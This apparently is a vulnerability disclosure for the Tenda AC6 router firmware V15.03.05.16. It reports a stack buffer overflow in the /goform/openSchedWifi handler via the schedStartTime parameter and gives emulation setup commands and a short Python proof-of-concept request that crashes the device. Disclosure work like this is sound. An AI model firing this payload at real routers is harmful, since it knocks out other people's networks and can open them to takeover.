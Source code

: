 
-------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/7772c8d2-54f0-4bcd-926c-445aeee977f2)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

Tenda AC6 **V15.03.05.16** has a stack overflow vulnerability. The vulnerability affects the file /goform/openSchedWifi function setSchedWifi. Setting the schedStartTime parameter causes a stack-based buffer overflow.

![image](https://github.com/user-attachments/assets/31ce4c52-587d-4c9d-a997-fa895d905b2a)


![image](https://github.com/user-attachments/assets/1a1b19a4-2175-47c1-bfea-c9b1c35e7620)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/openSchedWifi"

data = {
    "schedWifiEnable": "Raining101",
    "schedStartTime": "Raining" * 2000 
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![image](https://github.com/user-attachments/assets/a378cd22-4b93-4143-8e22-f54cda12bb60)


